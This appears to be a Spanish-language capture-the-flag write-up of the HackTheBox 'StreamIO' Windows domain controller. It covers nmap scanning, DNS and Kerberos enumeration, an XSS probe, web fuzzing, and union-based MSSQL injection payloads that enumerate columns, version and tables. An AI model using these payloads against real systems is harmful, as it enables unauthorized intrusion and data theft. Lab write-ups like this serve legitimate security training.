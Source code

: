 #ActiveDirectory #medium #tecnicas #windows 
### Ping
```python
ping -c 1 10.10.11.158
PING 10.10.11.158 (10.10.11.158) 56(84) bytes of data.
64 bytes from 10.10.11.158: icmp_seq=1 ttl=127 time=150 ms

--- 10.10.11.158 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 150.260/150.260/150.260/0.000 ms
```

### TTL 127 = Windows

### nmap
```python
sudo nmap -p- --open -sC -sV --min-rate 3000 -n -Pn 10.10.11.158 -oN Scan
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-12 16:20 EDT
Stats: 0:02:02 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 80.00% done; ETC: 16:22 (0:00:14 remaining)
Nmap scan report for 10.10.11.158
Host is up (0.15s latency).
Not shown: 65515 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-05-13 03:20:22Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
443/tcp   open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=streamIO/countryName=EU
| Subject Alternative Name: DNS:streamIO.htb, DNS:watch.streamIO.htb
| Not valid before: 2022-02-22T07:03:28
|_Not valid after:  2022-03-24T07:03:28
|_ssl-date: 2024-05-13T03:21:55+00:00; +6h58m32s from scanner time.
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49733/tcp open  msrpc         Microsoft Windows RPC
51562/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-05-13T03:21:16
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 6h58m31s, deviation: 0s, median: 6h58m31s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 169.46 seconds
```

### Enumeración del puerto 53 (Domain)
verificamos la información que hemos obtenido anteriormente sobre el nombre del dominio 
![[Pasted image 20240512164502.png]]

### dnsrecon
dnsrecon nos muestra mucha mas información la cual podría llegar a ser util
![[Pasted image 20240512164739.png]]
`kerberos._tcp: Estos registros SRV indican la ubicación de los servicios de Kerberos en el dominio. Kerberos es un protocolo de autenticación seguro ampliamente utilizado en sistemas informáticos. Con esta información, podrías intentar autenticarte en el dominio utilizando Kerberos y acceder a recursos protegidos por él.

`gc._tcp: Estos registros SRV indican la ubicación de los controladores de dominio global (Global Catalog) en el dominio. El Global Catalog almacena información sobre todos los objetos en el bosque de Active Directory. Podrías usar esta información para acceder al catálogo global y recuperar información sobre objetos de Active Directory.

`ldap._tcp: Estos registros SRV indican la ubicación de los servidores LDAP (Protocolo Ligero de Acceso a Directorios) en el dominio. LDAP se utiliza para acceder y mantener información de directorios distribuidos. Podrías utilizar esta información para realizar consultas LDAP y recuperar información sobre objetos de Active Directory.

`kpasswd._udp y _kpasswd._tcp: Estos registros SRV indican la ubicación del servicio de cambio de contraseña de Kerberos. Podrías usar esta información para cambiar contraseñas en el dominio si tienes los permisos adecuados.

###### aprovechando estos registros de kerberos vamos a intentar enumerar usuarios
![[Pasted image 20240512164846.png]]
### Enumeración del puerto 80 (http)

![[Pasted image 20240512164212.png]]

### Enumeración del puerto 80 (https)
el dominio que hemos encontrado esta corriendo por `https` la cual nos lleva a la siguiente pagina donde podemos ver el apartado de contacto
![[Pasted image 20240512164118.png]]

### Enumeración de usuarios 
en el apartado de `about` tenemos tres usuarios que podemos intentar validar
![[Pasted image 20240514130745.png]]

### Kerbrute
no tenemos exito en la enumeración de usuarios
![[Pasted image 20240514131051.png]]
### Prueba de "XXS"
![[Pasted image 20240514130608.png]]

`XXS`
de esta manera podemos intentar recibir una petición vía `GET` para saber si podríamos posteriormente realizar un `SSRF` 
![[Pasted image 20240514131520.png]]

`python server`
después de esperar unos minutos no he recibido nada así que por el momento descartamos esta ruta
![[Pasted image 20240514131724.png]]

### Fuzzing con wfuzz
despues de aplicar fuzzing puedo llegar a enumerar varios subdominios
![[Pasted image 20240514132853.png]]

### Enumeración de rutas .php
al enumerar archivos .php tambien encontramos varias rutas bastante interesantes
```python
	https://streamio.htb/register.php
	
	https://streamio.htb/login.php
```
![[Pasted image 20240514133058.png]]

`register`
podemos intentar registrarnos en la pagina
![[Pasted image 20240514133630.png]]

`register`
hemos registrado la cuenta con exito
![[Pasted image 20240514133652.png]]

`login`
ahora intentaremos iniciar sesión con la cuenta que hemos creado
![[Pasted image 20240514133829.png]]

`login`
tenemos un login failed parece que tampoco podemos acceder por este camino
![[Pasted image 20240514133939.png]]

### Enumeración del puerto 80 (https) segundo dominio
vamos a comenzar con la enumeración del segundo dominio 
![[Pasted image 20240514134458.png]]
`prueba`
parece que este panel trabaja igual que los anteriores. me permite agregar un nuevo usuario pero puedo llamarlo desde ninguna parte. 
![[Pasted image 20240514135313.png]]

### Fuzzing con wfuzz
al aplicar fuzzing el nuevo dominio hemos descubierto una nueva ruta `search` 
![[Pasted image 20240514135630.png]]

`watch.streamio.htb/search.php`
hemos conseguido otro panel el cual parece ser el encargado de administrar las búsquedas de las peliculas  
![[Pasted image 20240514135740.png]]

### SQLI
después de hacer un montón de pruebas hemos descubierto que la pagina web esta conectada a una base de datos que es vulnerable para `SQLI` con este payload podemos identificar cuantas columnas tiene la base de datos 
```python
	10'union select 1,2,3,4,5,6-- -
```
![[Pasted image 20240514140105.png]]

`MSQL` 
con este payload hemos identificado la versión de la base de datos
```python
	10' union select 1,@@version,3,4,5,6--
```
![[Pasted image 20240514140242.png]]

### MSSQL Injection
en este caso vamos a usar la biblia de los payload [PayloadAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/) aqui podemos conseguir un monton de payloads diferentes para cada base de datos
![[Pasted image 20240514144629.png]]

`MSSQLI DB_NAME` 
recordemos que podemos interactuar bajo la posición numero 2 y 3 en este caso yo usare la numero 2 para inyectar la query que usaremos para enumerar el nombre de la base de datos. de esta manera logramos enumerar correctamente la base de datos
![[Pasted image 20240514144652.png]]

###### haciendo uso del mismo repo vamos a utilizar una nueva query para enumerar MSSQL List Columns
![[Pasted image 20240514145156.png]]

### MSSQL List Tables
```python 
10' union select 1,name,3,4,5,6 FROM streamio..sysobjects WHERE xtype = 'U';-- -
```
